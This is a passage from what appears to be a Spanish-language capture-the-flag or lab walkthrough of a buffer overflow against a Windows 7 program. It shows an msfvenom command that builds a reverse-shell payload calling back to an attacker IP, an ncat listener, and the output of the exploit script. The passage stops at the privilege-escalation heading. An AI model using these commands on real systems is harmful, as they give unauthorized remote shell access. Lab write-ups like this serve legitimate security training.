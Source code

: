 Si ejecutamos el script y nos ponemos a la escucha debemos de obtener una shell, pero antes no olvides de correr el programa en el Windows 7.

![20240221041202.png](20240221041202.png)

Antes de hacer la intrusión en la maquina victima agregaremos a nuestro comando de `msfvenom` los siguiente `EXITFUNC=thread` lo que indica al shellcode utilizará la técnica de terminación de subproceso. Esto significa que después de que el shellcode haya finalizado su ejecución, el subproceso actual será terminado de manera segura y controlada. Esta técnica es útil para evitar la terminación inesperada del programa objetivo, lo que podría alertar al usuario o causar problemas de estabilidad. 

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```

Ahora si podemos generar nuestro payload y luego realizar nuestra intrusion en la maquina victimasin temor a perder la shell y quedarnos sin hacer nuevamente la intrusión

#### Terminal 1

Ponemos a la escucha por el puerto que ingresamos en nuestro payload 

```php
❯ rlwrap ncat -lvp 443
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:443

```

#### Terminal 2

Ejecutamos el script que ocasiona el desbordamiento de buffer

 ```python
 ❯ python3 buff_exploit.py
Sending evil buffer...
Done!

```

Y deberíamos de obtener una shell 
## Escalada de privilegios

### Usuario : natbat
